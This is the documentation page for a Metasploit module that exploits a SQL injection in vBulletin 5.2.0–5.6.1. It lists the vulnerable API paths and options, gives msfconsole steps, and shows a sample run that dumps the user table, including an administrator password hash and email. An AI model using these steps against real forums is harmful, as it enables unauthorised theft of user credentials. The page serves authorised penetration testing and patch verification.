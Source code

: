 ## Description

This module exploits a SQL injection vulnerability present in vBulletin 5.2.0 through 5.6.1 in the `getIndexableContent` function. This vulnerability is triggered through the `nodeId` variable and can be reached through multiple paths (listed below) but is exploited in this module utilizing the `/ajax/api/content_infraction/getIndexableContent` path.

- /ajax/api/content_video/getIndexableContent
- /ajax/api/content_text/getIndexableContent
- /ajax/api/content_report/getIndexableContent
- /ajax/api/content_redirect/getIndexableContent
- /ajax/api/content_privatemessage/getIndexableContent
- /ajax/api/content_poll/getIndexableContent
- /ajax/api/content_photo/getIndexableContent
- /ajax/api/content_link/getIndexableContent
- /ajax/api/content_infraction/getIndexableContent
- /ajax/api/content_gallery/getIndexableContent
- /ajax/api/content_event/getIndexableContent
- /ajax/api/content_channel/getIndexableContent
- /ajax/api/content_attach/getIndexableContent

Each path listed above reaches the `getIndexableContent` function within the `/core/vb/library/content.php` file. The SQL injection attack used utilizes a 
UNION query in order to leak data back in the response `rawtext` field. The data stored on the file system contains the entire `user` table or a dump of all the vBulletin tables in json format.

## Vulnerable Application

  [vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
  This module has been tested successfully against vBulletin 5.6.1 running on Ubuntu Linux 19.04

## Options

**DUMPALL**

A boolean value used to determine if the module should dump the `user` table (false), or (true) to dump all tables with the vBulletin table prefix.

**NODE**

A valid node id value for the vBulletin install. When provided, this value is used instead of that acquired by brute-forcing 

**MINNODE**

A minimum nodeid value to begin with when brute-forcing for a valid node id. **Default: 1**

**MAXNODE**

A maximum nodeid value to end with when brute-forcing for a valid node id. **Default: 200**

**TARGETURI**

The base URI path of vBulletin. **Default: /**

## Verification Steps

1. Do: ```use auxiliary/gather/vbulletin_getindexablecontent_sqli```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```set TARGETURI [PATH]```
5. Do: ```run```

## Scenarios

```
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > set RHOSTS 192.168.1.100
RHOSTS => 192.168.1.100
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > set VHOST vb.local
VHOST => vb.local
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > set TARGETURI /
TARGETURI => /vb5
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > run

[*] Running module against 192.168.1.100
[*] Brute forcing to find a valid node id.
[+] Sucessfully found node at id 1
[*] Attempting to determine the vBulletin table prefix.
[+] Sucessfully retrieved table to get prefix from vb5_language.
[*] Getting table columns for vb5_user
[+] Retrieved 78 columns for vb5_user
[*] Dumping table vb5_user
[*] Table contains 1 rows, dumping (this may take a while).
[+] Found credential: administrator:$2y$15$I5t0BGBeYaYGbaRhhBr8g.EBax846Jx3B6ady..nwuPxOWAYicYvi (Email: zenofex@exploitee.rs)
[+] Retrieved 1 rows for vb5_user
[+] Saved file to: /home/zenofex/.msf4/loot/20200522180431_default_192.168.1.100_vb5_user_305077.txt
[*] Auxiliary module execution completed

```
